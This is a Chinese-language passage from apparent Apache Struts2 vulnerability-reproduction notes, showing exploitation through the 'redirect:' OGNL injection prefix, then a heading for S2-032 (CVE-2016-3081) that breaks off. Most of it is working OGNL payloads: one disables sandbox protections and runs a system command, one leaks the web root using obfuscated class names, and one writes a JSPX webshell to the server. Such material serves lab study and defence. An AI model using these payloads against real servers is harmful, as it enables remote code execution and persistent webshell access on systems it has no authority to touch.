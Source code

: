 所以，访问`http://your-ip:8080/index.action?redirect:OGNL表达式`即可执行OGNL表达式。

执行命令：

```plain
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

获取web目录：

```plain
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```

写入webshell：

```plain
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
```

执行结果：

![img](assets/1670312192008-689ed7a1-b28d-4f2c-8b4c-02e2815cd522.png)

------

# S2-032 远程代码执行漏洞（CVE-2016-3081）



影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

漏洞详情:

